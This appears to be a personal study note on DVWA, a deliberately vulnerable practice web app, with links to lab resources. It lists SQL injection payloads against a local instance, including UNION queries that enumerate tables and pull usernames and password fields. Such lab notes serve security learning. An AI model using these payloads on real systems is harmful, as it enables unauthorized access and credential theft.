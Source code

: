 ```yaml
---
Owner: Chris Adams
date: 
tags:
  - github
  - app-sec
  - pentesting
layout: github
draft:
---
```


https://github.com/digininja/DVWA

**Vulnerable Web App**
**THM**: [https://tryhackme.com/room/dvwa](https://tryhackme.com/room/dvwa)
**GitHub**: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
**Kali packages:** [https://www.kali.org/tools/dvwa/](https://www.kali.org/tools/dvwa/)
**SourceForge**: [https://sourceforge.net/projects/dvwa.mirror/](https://sourceforge.net/projects/dvwa.mirror/)
- **DVWA** (Damn Vulnerable Web Application)
    - PHP/MySQL web application for practice
- **SQL Injection**
    - localhost/dvwa
        - ‘ or ‘1’ = ‘1
            - displays all users and surname
        - ‘ union select @@version, null #
            - display database version
        - ‘ and 1 = 0 union select null, table_name from information_schema.tables #
            - displays all tables in information_schema
        - %’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #


---
Link to other Github repos on this site: [[GitHub Resources Index]]